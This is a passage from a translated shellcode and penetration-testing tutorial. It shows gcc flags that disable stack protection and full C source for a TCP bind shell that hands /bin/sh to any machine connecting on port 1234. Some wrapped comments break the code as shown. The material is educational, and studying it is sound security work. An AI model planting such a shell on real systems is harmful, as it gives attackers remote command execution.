 现在运行以下命令：

```
$ gcc -fno-stack-protector -z execstack execve.c
$ ./a.out
```

上一个命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00204.jpeg)

# TCP 绑定 shell

现在，让我们进一步做一些真正有用的事情，即构建一个 TCP 绑定 shell。

TCP 绑定 shell 用于在一台机器（受害者）上设置服务器，并且该服务器正在等待来自另一台机器（攻击者）的连接，这允许另一台机器（攻击者）在服务器上执行命令。

首先，让我们看一下 C 语言中的绑定 shell，以了解它是如何工作的：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>

int main(void)
{
  int clientfd, sockfd;
  int port = 1234;
  struct sockaddr_in mysockaddr;

  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  mysockaddr.sin_family = AF_INET; //--> can be represented in
  numeric  as 2
  mysockaddr.sin_port = htons(port);
  mysockaddr.sin_addr.s_addr = INADDR_ANY;// --> can be represented
  in  numeric as 0 which means to bind to all interfaces

  bind(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));

  listen(sockfd, 1);

  clientfd = accept(sockfd, NULL, NULL);

  dup2(clientfd, 0);
  dup2(clientfd, 1);
  dup2(clientfd, 2);
  char * const argv[] = {"sh",NULL, NULL};
  execve("/bin/sh", argv, NULL);
  return 0;
}
```
